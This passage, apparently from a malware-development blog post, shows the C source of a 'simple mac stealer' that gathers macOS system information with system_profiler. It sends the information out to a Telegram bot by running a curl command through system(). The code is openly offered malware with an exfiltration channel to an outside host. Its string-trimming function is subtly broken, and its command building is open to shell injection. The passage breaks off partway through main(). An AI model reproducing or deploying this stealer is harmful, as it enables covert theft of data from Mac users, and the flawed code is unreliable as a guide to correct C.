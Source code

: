So, full source code is looks like this (`hack.c`):      

```cpp
/*
 * hack.c
 * simple mac stealer
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/06/12/malware-mac-1.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BUFFER_SIZE 128

// trim function
void trimF(char* str) {
  char* pos;
  
  // remove newlines
  if ((pos = strchr(str, '\n')) != NULL) {
    *pos = '\0';
  }
  
  // remove carriage returns
  if ((pos = strchr(str, '\r')) != NULL) {
    *pos = '\0';
  }

  char *token = strtok(pos, " \t\n\r");
  if (token) {
    strcpy(pos, token);
  }
}

// function to send message via Telegram Bot API
int sendToTgBot(const char* message, const char* botToken, const char* chatId) {
  char command[1024];
  
  // URL encode message for safe HTTP request
  char encodedMessage[BUFFER_SIZE];
  snprintf(encodedMessage, sizeof(encodedMessage), "\"%s\"", message);  // just for simplicity here
  
  // build the curl command to send the message to Telegram
  snprintf(command, sizeof(command),
    "curl -s -X POST https://api.telegram.org/bot%s/sendMessage --data-urlencode chat_id=%s --data-urlencode text=%s",
    botToken, chatId, encodedMessage);

  // execute the command
  int result = system(command);
  return result;
}

int main() {
  char command[] = "system_profiler SPSoftwareDataType 2>&1";
  char buffer[BUFFER_SIZE];
  FILE* pipe = popen(command, "r");

  if (!pipe) {
    perror("failed to open pipe!");
    return 1;
  }

```